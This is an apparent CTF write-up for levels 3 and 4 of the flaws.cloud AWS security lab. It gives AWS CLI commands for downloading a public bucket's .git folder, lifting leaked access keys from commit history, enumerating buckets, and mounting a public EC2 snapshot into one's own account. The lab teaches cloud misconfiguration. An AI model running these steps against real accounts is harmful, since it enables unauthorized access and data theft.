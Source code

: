 
## Level 3
> [URL](http://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/)

**Flaw: Bucket listing permissions for everyone and leaked access keys in git commits**
* List the bucket contents for the url using AWS profile
	```
	aws s3 ls s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud --profile YOUR_PROFILE
	```
* Download the  `.git` folder
	```
	aws s3 sync s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git l3-dump  --profile YOUR_PROFILE
	```
* Check the git logs
	```
	git log
	```
* Check the first commit
	```
	git checkout {commit hash}
	```
* Check the commit contents
	```
	git show
	```
* Create a profile using the credentials
	```
	aws configure --profile flaws-l3
	```
	* Enter `AKIA` and `Secret access Key` from the git commit
	
* List all the buckets for the newly created profile
	```
	aws s3 ls --profile flaws-l3
	```
<br/>

## Level 4
> [URL](http://level4-1156739cfb264ced6de514971a4bef68.flaws.cloud/)
> [ec2 url](http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud)

**Flaw: Snapshot of EC2 instance made public**

* Use `nslookup` and get the region of the snapshot
	* `nslookup 4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud`
	* Region: `us-west-2`
* Using the flaws-l3 profile look for ec2 snapshots
	```
	aws ec2 describe-snapshots --profile flaws-l3
	```
* Get account id for the flaws-l3 keys
	```
	aws --profile flaws sts get-caller-identity
	```
* List the ec2 snapshots for the particular owner
	```
	aws ec2 describe-snapshots --profile flaws-l3 --owner-id {owner-id} --region us-west-2
	```
* Mount the volume using the `snapshot id` to your acc
	```
	aws --profile {YOUR_ACCOUNT} ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id snap-0b49342abd1bdcb89
	```